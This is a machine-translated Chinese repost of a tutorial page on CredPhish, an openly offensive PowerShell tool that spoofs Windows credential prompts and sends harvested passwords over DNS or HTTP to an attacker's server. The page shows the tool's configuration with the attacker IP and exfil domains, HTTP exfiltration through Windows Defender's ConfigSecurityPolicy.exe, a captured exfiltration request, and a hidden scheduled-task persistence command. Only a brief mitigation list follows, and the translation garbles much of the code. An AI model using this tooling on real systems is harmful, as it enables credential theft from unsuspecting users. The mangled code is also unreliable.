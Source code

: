 # CredPhish:一个 PowerShell 脚本，旨在通过 DNS 调用合法的凭据提示和泄漏密码

> 原文：<https://kalilinuxtutorials.com/credphish/>

[![CredPhish : A PowerShell Script Designed To Invoke Legitimate Credential Prompts And Exfiltrate Passwords Over DNS](img//fc8f86d4a8afca8bafff11a6c6223a82.png "CredPhish : A PowerShell Script Designed To Invoke Legitimate Credential Prompts And Exfiltrate Passwords Over DNS")](https://1.bp.blogspot.com/-NyPv93zkN8Y/YQI8-O6SjvI/AAAAAAAAKSo/FxcYoJt4p8YvE7DO1DLOJby4bP0w5MizgCLcBGAsYHQ/s728/Get-Credential%2B%25281%2529.png)

**CredPhish** 是一个 PowerShell 脚本，用于调用凭证提示和泄漏密码。它依靠 CredentialPicker 来收集用户密码、解析 DNS 过滤的 DnsName 以及 Windows Defender 的 ConfigSecurityPolicy.exe 来执行任意 GET 请求。

有关演练，请参见黑山信息安全出版物。

**如何用 PowerShell 费西合唱团用户密码**

欺骗凭据提示是一种有效的权限提升和横向移动技术。在 Windows 环境中，对于 Outlook、VPN 和各种其他身份验证协议，经常会遇到看似随机的密码提示。对手会滥用 Windows 和 PowerShell 内置的功能来调用凭据弹出窗口以获取用户密码。

根据米特 ATT 和 CK 框架的定义:

> “当执行需要额外权限的程序时……操作系统通常会提示用户输入适当的凭证，以授权任务的提升权限。对手可能会模仿常见的操作系统组件，通过 PowerShell 等语言，用看似合法的提示来提示用户输入凭据。”

什么是 CredPhish？

CredPhish 是一个 PowerShell 脚本，用于调用凭据提示和泄漏密码。它依靠 CredentialPicker API 来收集用户密码，PowerShell 的 Resolve-DnsName 用于 DNS 过滤，Windows Defender 的 ConfigSecurityPolicy.exe 用于执行任意 GET 请求。

下面是一个 CredPhish 的例子。请注意，在 Windows 安全提示中提交凭据后，这些凭据会立即传送到攻击者的 DNS 服务器。

![](img//eaffb1d3c202a570c322f93abf945221.png)

默认情况下，CredPhish 将使用 Resolve-DNS name(PowerShell 内置的 DNS 解析程序)来过滤凭据。它会将凭证中的每个字符转换为各自的十六进制值，将转换后的值分成预定义的块，并将这些块放入流行网站的子域中。下面的屏幕截图是十六进制形式的泄漏凭证的示例。请注意 google.com 和 office.com 子域中“tokyoneon”(746 F6 b 796 F6 e 656 F6 e)的十六进制值。

![](img//23ecb8dcc7de12a91dafef67c2b00a2e.png)

在解析 DNS 查询之前，DNS 服务器将剥离十六进制子域，以避免创建大量错误响应。在下面的 Wireshark 截图中，请注意“答案”字段不再包含子域，并成功解析为 Google 的一个 IP 地址。

![](img//110c282ec7bc968ef743ea0d861fbb95.png)

**CredPhish.ps1 配置**

我将 credphish.ps1 设计成一个不需要`Import-Module`的独立脚本，这是一个常见的妥协指标。可配置选项以变量的形式位于 PS1 脚本的顶部，以避免冗长的命令行参数。

第一行是最重要的，因为它定义了泄漏的数据被传送到哪里(即攻击者的 Kali 服务器)。

**# exfil address
$ exfilserver = " 192 . 168 . 56 . 112 "**

接下来，几个变量定义了提示将如何出现在没有怀疑的目标用户面前。`$promptCaption`定义了请求用户凭证的*应用*(例如，“微软办公室”)。而`$promptMessage`通常指定与请求相关联的账户。

**# prompt
$ target user = $ env:username
$ company email = " blackhillsinfosec . com "
$ prompt caption = " Microsoft Office "
$ prompt message = " Connecting to:$ target user @ $ company email "
$ max tries = 1 #调用提示的最大次数
$delayPrompts =提示之间的 2 #秒
$ validate credentials = $ false # interrupt $ max tries 并且如果凭证有效则立即执行**

`$maxTries`变量定义了在目标提交凭证之前提示将出现的次数。为了避免怀疑，`1`是默认值。`$delayPrompts`变量定义了每次提示之间的秒数(如果`$maxTries`大于`1`)。默认禁用的`$validateCredentials`将尝试在提升的上下文中使用`Start-Process`在本地验证提交的凭证。如果启用并验证了凭证，则会忽略`$maxTries`，并将数据立即发送到攻击者的服务器。

**渗出方法**

如上所述，DNS 渗透是用于向攻击者的服务器传送密码的默认方法。`$exfilDomains`列表包括 DNS 查询中使用的各种随机选择的域。`$subdomainLength`变量决定了每个子域的期望长度。

**# dns
#启动卡利语 DNS 服务器:python 3/path/to/cred phish/DNS _ server . py
$ enableDnsExfil = $ true
$ exfilDomains = @(' Microsoft . com '，' google.com '，' office.com '，' live . com ')# DNS exfil 的域
$ random delay = get-random-minimum 5-maximum 20 # DNS 查询之间的延迟
$subdomainLength =子域中最多 6 个字符。必须是 2-60 之间的偶数，否则查询将中断**

要拦截使用 DNS 过滤功能发送的凭据，请在 Kali 中执行 dns_server.py 脚本。按`Ctrl` + `c`终止 DNS 服务器，它会以明文的形式重新构建拦截的凭证。

![](img//eaffb1d3c202a570c322f93abf945221.png)

CredPhish 内置的另一种渗透方法是 HTTP 请求方法。它利用 Windows Defender 中包含的二进制文件“ConfigSecurityPolicy.exe”向攻击者的服务器提供凭据。将`$enableHttpExfil`变量设置为`$true`以启用它。

**# http
#启动 kali 中的 http 服务器:python 3-m http . server 80
$ enablehttpefil = $ false
$ ConfigSecurityPolicy = " C:\ Prog*Files \ Win*Defender \ ConfigSecurityPolicy . exe "**

要拦截用`ConfigSecurityPolicy.exe`发送的凭证，在 Kali 中启动一个简单的 HTTP 服务器，在日志中捕获它们。

![](img//7bfdc3bf70356331e188f024ed03ef0d.png)

在网络上，过滤后的凭据将如下所示。

**GET/DESKTOP-S4 daaf 0% 5b tokyoneon % 3A % 23！extr 3m 3 ly _ % 26 ecure-P % 40 ssw % 25rD % 23% 5D HTTP/1.1
接受: */*
UA-CPU: AMD64
接受-编码:gzip，deflate
用户代理:Mozilla/4.0(兼容；MSIE 7.0Windows NT 10.0Win64x64 三叉戟/7.0；. NET4.0C. NET4.0E)
主机:192.168.56.104
连接:保活**

由于凭证在传输之前是 URL 编码的，所以使用 Burp 的解码器模块来观察数据，或者使用 Python 的`urllib`库通过命令行进行 URL 解码。

![](img//ad8f80cb7cf83fdb5a4d3494bea700ac.png)

**>>>from URL lib . parse import un quote
>>>un quote("/DESKTOP-S4 daaf 0% 5b tokyoneon % 3A % 23！extr 3m 3 ly _ % 26 ecure-P % 40 ssw % 25rD % 23% 5D ")
'/DESKTOP-s 4d AAF 0[tokyoneon:#！extr 3m 3 ly _&ecuRe-P @ ssw % rD #]'**

**CredPhish.ps1 执行**

要快速测试 CredPhish，将`credphish.ps1`移动到目标 Windows 10 机器上，用 PowerShell 执行。

![](img//df1d98503d9a54ea01991171c5bcf824.png)

持久的执行方法可能涉及任务计划程序，它是 Windows 的一个组件，提供了按预定义的时间间隔计划脚本执行的能力。下面的`schtasks`示例将每 2 分钟执行一次`credphish.ps1`。

**create/sc minute/mo 2/TN " cred phish "/tr " powershell-EP bypass-window style Hidden C:\ path \ to \ cred phish \ cred phish . PS1 "**

**缓解措施&检测**

源自 Invoke-LoginPrompt、CredsLeaker 和 Stitch 等项目的 CredPhish 并不是密码钓鱼的灵丹妙药。总有改进的空间，因为这种攻击通常具有很强的针对性和用户特定性。一种更激进的方法可能涉及用 Cobalt Strike 欺骗整个 Windows 10 锁屏，并以这种方式捕获凭据。

这些类型的攻击技术不容易通过预防性控制来缓解，因为它们滥用系统功能。米特 ATT 和 CK 框架建议:

*   对用户进行培训，以提高对潜在恶意事件和对话框(例如，提示输入凭据的 Office 文档)的认识和怀疑。
*   监控进程执行，查看异常程序以及提示用户输入凭据的命令和脚本解释程序的恶意实例。
*   检查和审查输入提示中的非法性指示，如非传统的横幅、文本、时间和/或来源。

[**Download**](https://github.com/tokyoneon/CredPhish)